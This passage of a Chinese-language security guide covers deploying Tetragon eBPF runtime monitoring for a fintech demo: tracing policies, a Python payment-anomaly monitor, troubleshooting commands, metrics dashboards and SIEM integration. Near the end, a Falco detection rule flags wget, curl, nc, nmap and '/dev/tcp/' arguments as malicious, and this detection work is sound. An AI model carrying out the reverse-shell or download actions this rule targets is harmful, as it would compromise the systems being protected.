    - type: "data_filter"
      pattern: '"amount":[0-9]{6,}'  # 检测6位数以上金额

  # 监控异常数据库查询
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchArgs:
      - index: 0
        operator: "DPort"
        values:
        - "5432"
    - matchLabels:
      - key: "app"
        operator: "Equal"
        values:
        - "trading-api"
    # 添加频率限制
    rateLimit: "10/s"
```

#### 支付安全监控
```python
# scripts/payment-security-monitor.py
import json
import asyncio
import websockets
from datetime import datetime, timedelta
from collections import defaultdict, deque

class PaymentSecurityMonitor:
    def __init__(self):
        self.transaction_history = defaultdict(deque)
        self.suspicious_patterns = []
        self.rate_limits = {
            'transactions_per_minute': 10,
            'max_amount_per_hour': 100000,
            'max_failed_attempts': 5
        }
        
    async def monitor_tetragon_events(self):
        """监控Tetragon事件中的支付相关活动"""
        uri = "ws://fintech-demo.local/api/audit/tetragon-events"
        
        async with websockets.connect(uri) as websocket:
            async for message in websocket:
                event = json.loads(message)
                await self.analyze_payment_event(event)
                
    async def analyze_payment_event(self, event):
        """分析支付相关的安全事件"""
        if not self.is_payment_related(event):
            return
            
        # 提取支付信息
        payment_info = self.extract_payment_info(event)
        if not payment_info:
            return
            
        # 执行安全检查
        anomalies = self.check_payment_anomalies(payment_info)
        
        for anomaly in anomalies:
            await self.handle_payment_anomaly(anomaly)
            
    def is_payment_related(self, event):
        """判断事件是否与支付相关"""
        if 'process_exec' in event:
            binary = event['process_exec']['process']['binary']
            return binary == '/app/payment-gateway'
            
        if 'process_kprobe' in event:
            process = event['process_kprobe']['process']
            return (process.get('binary') == '/app/payment-gateway' or
                   'payment' in process.get('pod', {}).get('name', '').lower())
            
        return False
        
    def extract_payment_info(self, event):
        """从事件中提取支付信息"""
        if 'process_kprobe' in event:
            kprobe = event['process_kprobe']
            
            # 检查网络通信数据
            if 'tcp_sendmsg' in kprobe.get('function_name', ''):
                # 尝试解析HTTP请求中的支付数据
                return self.parse_payment_data(kprobe.get('args', []))
                
        return None
        
    def parse_payment_data(self, args):
        """解析支付数据"""
        # 简化的支付数据解析
        # 实际实现需要根据具体的数据格式
        for arg in args:
            if 'string_arg' in arg:
                data = arg['string_arg']
                if 'amount' in data and 'currency' in data:
                    try:
                        # 解析JSON格式的支付数据
                        payment_data = json.loads(data)
                        return {
                            'amount': payment_data.get('amount', 0),
                            'currency': payment_data.get('currency', 'USD'),
                            'user_id': payment_data.get('user_id'),
                            'timestamp': datetime.now()
                        }
                    except json.JSONDecodeError:
                        pass
        return None
        
    def check_payment_anomalies(self, payment_info):
        """检查支付异常"""
        anomalies = []
        user_id = payment_info['user_id']
        amount = payment_info['amount']
        
        # 检查交易频率
        recent_transactions = self.get_recent_transactions(user_id, minutes=1)
        if len(recent_transactions) > self.rate_limits['transactions_per_minute']:
            anomalies.append({
                'type': 'high_frequency_transactions',
                'severity': 'medium',
                'details': {
                    'user_id': user_id,
                    'transaction_count': len(recent_transactions),
                    'time_window': '1 minute'
                }
            })
            
        # 检查大额交易
        if amount > 50000:  # $50,000以上认为是大额交易
            anomalies.append({
                'type': 'large_amount_transaction',
                'severity': 'high',
                'details': {
                    'user_id': user_id,
                    'amount': amount,
                    'currency': payment_info['currency']
                }
            })
            
        # 检查累计金额
        hourly_total = self.get_hourly_total(user_id)
        if hourly_total > self.rate_limits['max_amount_per_hour']:
            anomalies.append({
                'type': 'excessive_hourly_amount',
                'severity': 'high',
                'details': {
                    'user_id': user_id,
                    'hourly_total': hourly_total,
                    'limit': self.rate_limits['max_amount_per_hour']
                }
            })
            
        return anomalies
        
    async def handle_payment_anomaly(self, anomaly):
        """处理支付异常"""
        print(f"支付异常检测: {anomaly['type']}")
        print(f"严重程度: {anomaly['severity']}")
        print(f"详情: {json.dumps(anomaly['details'], indent=2)}")
        
        # 根据异常类型执行相应的响应措施
        if anomaly['severity'] == 'high':
            await self.trigger_high_severity_response(anomaly)
        elif anomaly['severity'] == 'medium':
            await self.trigger_medium_severity_response(anomaly)
            
    async def trigger_high_severity_response(self, anomaly):
        """高严重程度异常响应"""
        # 1. 立即通知安全团队
        # 2. 临时冻结相关账户
        # 3. 触发额外的身份验证
        # 4. 记录详细的审计日志
        pass
        
    async def trigger_medium_severity_response(self, anomaly):
        """中等严重程度异常响应"""
        # 1. 增加监控频率
        # 2. 触发风险评估
        # 3. 记录安全日志
        pass

if __name__ == "__main__":
    monitor = PaymentSecurityMonitor()
    asyncio.run(monitor.monitor_tetragon_events())
```

## 🔧 故障排除

### 1. 常见问题诊断

#### Tetragon安装问题
```bash
# 检查内核兼容性
uname -r
# 需要内核版本 >= 4.19

# 检查eBPF功能
ls /sys/fs/bpf/
mount | grep bpf

# 检查Tetragon Pod状态
kubectl get pods -n kube-system | grep tetragon
kubectl describe pod -n kube-system <tetragon-pod-name>

# 查看Tetragon日志
kubectl logs -n kube-system daemonset/tetragon -f
```

#### 策略不生效问题
```bash
# 检查TracingPolicy状态
kubectl get tracingpolicy -A
kubectl describe tracingpolicy <policy-name>

# 验证策略语法
kubectl apply --dry-run=client -f tetragon-policies/

# 检查eBPF程序加载状态
kubectl exec -n kube-system ds/tetragon -- bpftool prog list
```

#### 性能问题排查
```bash
# 监控Tetragon资源使用
kubectl top pod -n kube-system | grep tetragon

# 检查事件处理速度
kubectl exec -n kube-system ds/tetragon -- tetra getevents --output json | wc -l

# 检查eBPF Map使用情况
kubectl exec -n kube-system ds/tetragon -- bpftool map list
```

### 2. 性能优化建议

#### 调优配置
```yaml
# tetragon-config/performance-tuning.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: tetragon-config
  namespace: kube-system
data:
  tetragon.yaml: |
    # 日志配置
    log-level: info
    log-format: text
    
    # 性能配置
    enable-k8s-api: true
    k8s-kubeconfig-path: ""
    
    # 事件缓冲区大小
    event-queue-size: 10000
    
    # 导出配置
    export-filename: /var/log/tetragon/tetragon.log
    export-file-max-size-mb: 100
    export-file-rotation-interval: 1h
    
    # gRPC配置
    grpc-listen-address: "localhost:54321" 
    grpc-rate-limit: 100
    
    # Prometheus指标
    prometheus-listen-address: "0.0.0.0:2112"
    
    # BTF文件路径
    btf: ""
    
    # 进程过滤
    process-filter:
      - namespace: "kube-system"
        action: "drop"
      - binary: "/pause"
        action: "drop"
```

### 3. 监控和告警

#### Prometheus指标收集
```yaml
# monitoring/tetragon-servicemonitor.yaml
apiVersion: monitoring.coreos.com/v1
kind: ServiceMonitor
metadata:
  name: tetragon-metrics
  namespace: kube-system
spec:
  selector:
    matchLabels:
      app.kubernetes.io/name: tetragon
  endpoints:
  - port: prometheus
    interval: 30s
    path: /metrics
```

#### Grafana仪表板配置
```json
{
  "dashboard": {
    "title": "Tetragon安全监控",
    "panels": [
      {
        "title": "安全事件统计",
        "type": "stat",
        "targets": [
          {
            "expr": "increase(tetragon_events_total[5m])",
            "legendFormat": "总事件数"
          }
        ]
      },
      {
        "title": "威胁检测",
        "type": "graph",
        "targets": [
          {
            "expr": "tetragon_policy_events_total{policy_name=~\".*security.*\"}",
            "legendFormat": "{{policy_name}}"
          }
        ]
      },
      {
        "title": "进程执行",
        "type": "table",
        "targets": [
          {
            "expr": "tetragon_process_exec_total",
            "format": "table"
          }
        ]
      }
    ]
  }
}
```

## 📚 最佳实践

### 1. 安全策略设计

**分层防护策略:**
```
第一层: 网络隔离 (Cilium NetworkPolicy)
第二层: 运行时监控 (Tetragon TracingPolicy)  
第三层: 应用层安全 (业务逻辑)
第四层: 数据保护 (加密和访问控制)
```

**策略制定原则:**
- **最小权限**: 仅允许必要的操作
- **深度监控**: 多维度事件关联分析
- **快速响应**: 自动化威胁处置
- **持续改进**: 基于威胁情报更新策略

### 2. 部署建议

**生产环境部署清单:**
- [ ] 启用资源限制和请求
- [ ] 配置持久化存储用于日志
- [ ] 设置适当的日志轮转策略
- [ ] 配置监控和告警
- [ ] 建立事件响应流程
- [ ] 定期更新策略规则
- [ ] 进行定期的安全审计

### 3. 与现有安全工具集成

**SIEM集成:**
```bash
# 将Tetragon事件发送到Elasticsearch
kubectl apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: filebeat-config
  namespace: kube-system
data:
  filebeat.yml: |
    filebeat.inputs:
    - type: log
      paths:
        - /var/log/tetragon/tetragon.log
      json.keys_under_root: true
      json.message_key: log
      
    output.elasticsearch:
      hosts: ["elasticsearch.security.svc.cluster.local:9200"]
      index: "tetragon-events-%{+yyyy.MM.dd}"
EOF
```

**Falco规则增强:**
```yaml
# 结合Falco和Tetragon的检测能力
- rule: Tetragon Malicious Process Detection
  desc: Detect malicious process execution via Tetragon
  condition: >
    tetragon_event and 
    process_exec and
    (proc.name in (wget, curl, nc, nmap) or
     proc.args contains "http://" or
     proc.args contains "/dev/tcp/")
  output: >
    Malicious process detected by Tetragon
    (process=%proc.name args=%proc.args user=%user.name)
  priority: HIGH
```

---

## 🎯 总结

Tetragon为FinTech eBPF Demo提供了企业级的运行时安全能力：

### 核心价值
1. **零开销监控**: 基于eBPF的内核级监控，性能影响<1%
2. **实时威胁检测**: 微秒级的安全事件检测和响应
3. **深度可视化**: 完整的进程族谱和网络连接关系
4. **策略驱动**: 灵活的TracingPolicy配置适应不同安全需求
5. **云原生集成**: 与Kubernetes和Cilium无缝集成

### 适用场景
- **金融交易系统**: 实时监控交易处理和异常检测
- **合规性要求**: 满足SOX、PCI-DSS等法规要求
- **零信任架构**: 实现细粒度的安全策略执行
- **容器安全**: 防止容器逃逸和权限提升
- **威胁猎杀**: 基于行为分析的高级威胁检测

### 下一步行动
1. 根据本指南部署Tetragon到您的环境
2. 配置适合金融业务的安全策略
3. 集成到现有的监控和告警系统
4. 建立安全事件响应流程
5. 定期评估和优化安全策略

通过Tetragon的强大功能，您的FinTech应用将获得世界级的运行时安全保护，为客户和业务提供可靠的安全保障。

---
**版本:** v4.0  
**更新时间:** 2025-06-16  
**作者:** FinTech Security Team  
**联系方式:** security@fintech-demo.local